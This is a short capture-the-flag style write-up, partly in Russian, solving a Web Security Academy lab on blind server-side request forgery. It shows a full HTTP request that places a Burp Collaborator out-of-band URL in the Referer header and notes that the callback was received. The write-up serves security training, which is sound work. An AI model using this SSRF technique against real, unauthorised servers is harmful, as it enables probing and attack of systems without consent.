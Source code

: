 # Blind SSRF with out-of-band detection
PRACTITIONER

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Решение
Копирую пейлоад из коллаборатора и вставляю в поле Referer в рипитере:
```
GET /product?productId=1 HTTP/2
Host: 0aaa0049046fca0790b1a5f500690049.web-security-academy.net
Cookie: session=BYaNTSBMrzKe9nWHI7boW0CdG3O6H41p
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://etblb1a0akzl4v9u4mo3yov6jxpodi17.oastify.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
Выполняю. Коллаборатор поймал два DNS-запроса и один HTTP-запрос. Задание выполнено.
